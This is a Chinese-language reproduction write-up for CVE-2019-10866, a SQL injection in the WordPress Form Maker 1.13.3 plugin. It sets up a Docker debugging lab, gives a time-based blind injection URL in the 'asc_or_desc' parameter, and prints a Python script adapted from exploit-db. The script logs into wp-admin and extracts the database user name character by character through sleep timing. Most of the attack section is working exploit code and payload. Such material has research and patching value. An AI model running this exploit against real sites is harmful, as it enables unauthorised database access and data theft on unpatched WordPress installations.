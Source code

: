 ```yaml
---
title: "（CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql注入"
id: zhfly3249
---
```


# （CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 环境搭建

运行环境很简单，只是在vulapps的基础环境的上加了xdebug调试插件，把docker容器作为远程服务器来进行调试。
Dockerfile文件:

```
FROM medicean/vulapps:base_lamp_php7

RUN pecl install xdebug `COPY php.ini /etc/php/7.0/apache2/

COPY php.ini /etc/php/7.0/cli/` 
```

docker-compose文件:

```
version: '3'
services:
  lamp-php7:
    build: .
    ports:
      - "80:80"
    volumes:
      - "/Users/mengchen/Security/Code Audit/html:/var/www/html"
      - "/Users/mengchen/Security/Code Audit/tmp:/tmp" 
```

php.ini中xdebug的配置

```
[xdebug]
zend_extension="/usr/lib/php/20151012/xdebug.so"
xdebug.remote_enable=1
xdebug.remote_host=10.254.254.254
xdebug.remote_port=9000
xdebug.remote_connect_back=0
xdebug.profiler_enable=0
xdebug.idekey=PHPSTORM
xdebug.remote_log="/tmp/xdebug.log" 
```

因为我是在Mac上，所以要给本机加一个IP地址，让xdebug能够连接

```
sudo ifconfig lo0 alias 10.254.254.254 
```

PHPStorm也要配置好相对路径:

![image](../img/59b80a4c5f9f72d5759f82d9c914c1f8.png)

插件下载地址:

```
https://downloads.wordpress.org/plugin/form-maker.1.13.3.zip 
```

WordPress使用最新版就可以，在这里我使用的版本是5.2.2，语言选的简体中文。

PS: WordPress搭建完毕后，记得关闭自动更新。

### POC

```
http://0-sec.org/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=,(case+when+(select+ascii(substring(user(),1,1)))%3d114+then+(select+sleep(5)+from+wp_users+limit+1)+else+2+end)+asc%3b 
```

Python脚本，修改自exploit-db

```
#coding:utf-8
import requests
import time

vul_url = “[http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=](http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=)”

S = requests.Session()

S.headers.update({“User-Agent”: “Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0”, “Accept”: “text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8”, “Accept-Language”: “zh-CN,en;q=0.8,zh;q=0.5,en-US;q=0.3”, “Referer”: “[http://127.0.0.1/wp-login.php?loggedout=true](http://127.0.0.1/wp-login.php?loggedout=true)”, “Content-Type”: “application/x-www-form-urlencoded”, “Connection”: “close”, “Upgrade-Insecure-Requests”: “1”})

length = 0

TIME = 3

username = “admin”

password = “admin”

def login(username, password):

data = {

“log”: “admin”,

“pwd”: “admin”,

“wp-submit”: “\xe7\x99\xbb\xe5\xbd\x95”,

“redirect_to”: “[http://127.0.0.1/wp-admin/](http://127.0.0.1/wp-admin/)”,

“testcookie”: “1”

}

r = S.post(‘[http://127.0.0.1/wp-login.php](http://127.0.0.1/wp-login.php)’, data=data, cookies = {“wordpress_test_cookie”: “WP+Cookie+check”}) `def attack():

flag = True

data = “”

length = 1

while flag:

flag = False

tmp_ascii = 0

for ascii in range(32, 127):

tmp_ascii = ascii

start_time = time.time()

payload = “{vul_url},(case+when+(select+ascii(substring(user(),{length},1)))%3d{ascii}+then+(select+sleep({TIME})+from+wp_users+limit+1)+else+2+end)+asc%3b”.format(vul_url=vul_url, ascii=ascii, TIME=TIME, length=length)

#print(payload)

r = S.get(payload)

tmp = time.time() - start_time

if tmp >= TIME:

flag = True

break

if flag:

data += chr(tmp_ascii)

length += 1

print(data)

login(username, password)

attack()` 
```

![image](../img/372d323b498e85ad75fb338c30feaf99.png)